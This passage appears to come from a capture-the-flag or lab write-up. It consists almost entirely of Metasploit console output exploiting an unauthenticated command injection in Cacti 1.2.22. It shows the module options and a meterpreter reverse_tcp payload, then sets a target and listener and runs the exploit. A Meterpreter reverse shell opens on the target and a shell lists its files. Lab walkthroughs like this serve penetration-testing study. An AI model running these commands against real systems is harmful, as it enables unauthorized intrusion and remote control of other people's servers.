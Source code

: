 ```
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller
                                                   table.


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to liste
                                       n on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set RHOSTS 10.10.11.211
RHOSTS => 10.10.11.211
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set RPORT 80
RPORT => 80
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set LHOST tun0
LHOST => 10.10.16.81
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.16.81:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
[*] Enumerating local_data_id values for host_id 1
[+] Found exploitable local_data_id 6 for host_id 1
[*] Sending stage (1017704 bytes) to 10.10.11.211
[*] Command Stager progress - 100.00% done (1118/1118 bytes)
[*] Meterpreter session 1 opened (10.10.16.81:4444 -> 10.10.11.211:45570) at 2023-09-18 15:13:16 -0400

meterpreter > 
meterpreter > shell
Process 10464 created.
Channel 1 created.
ls -al  
total 2792
drwxrwxrwx 1 www-data www-data   4096 Jan  9  2023 .
```